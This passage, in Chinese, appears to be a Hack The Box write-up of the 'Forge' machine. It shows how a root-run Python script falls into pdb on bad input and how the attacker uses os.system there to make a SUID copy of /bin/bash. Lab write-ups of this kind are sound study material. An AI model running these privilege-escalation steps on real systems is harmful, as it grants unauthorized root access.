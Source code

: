远程管理 Python 脚本

我们看到这是一个简单的脚本，运行时监听本地主机上的随机端口。当你连接到它，你有几个选项来查看进程，内存或插座。它甚至给了我们密码！关键部分是 except 子句，它将我们带到名为 [pdb](https://docs.python.org/3/library/pdb.html) 的交互式源代码调试器。如果我们触发一个异常，我们将以 root 用户身份出现在 Python 提示符下，这样我们就可以很容易地完成装箱。

让我们以 root 用户身份运行脚本:

```
-bash-5.0$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:49630
```

我们看到它在端口 49630 上等待我们连接。让我们再次以用户身份通过 SSH 从第二个终端登录:

```
┌──(root💀kali)-[~/htb/forge]
└─# ssh -i id_rsa user@forge.htb                             
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
Last login: Sun Oct 24 10:10:40 2021 from 10.10.14.192
-bash-5.0$
```

现在，我们可以连接到本地主机上的脚本:

```
-bash-5.0$ nc localhost 49630
Enter the secret passsword: <HIDDEN>
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

# 根标志

您可以输入四个预期数字之外的任何数字。之后，脚本似乎挂起，如果您切换到您的另一个终端，您会看到脚本已经崩溃，您现在在 pdb:

```
invalid literal for int() with base 10: b'pencerwashere'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb)
```

我们看到脚本导入了操作系统模块，因此我们可以使用它以 root 用户身份执行系统命令:

```
(Pdb) import os
(Pdb) os.system ('cp /bin/bash /dev/shm/bash')
(Pdb) os.system ('chmod u+s /dev/shm/bash')
(Pdb) exit
```
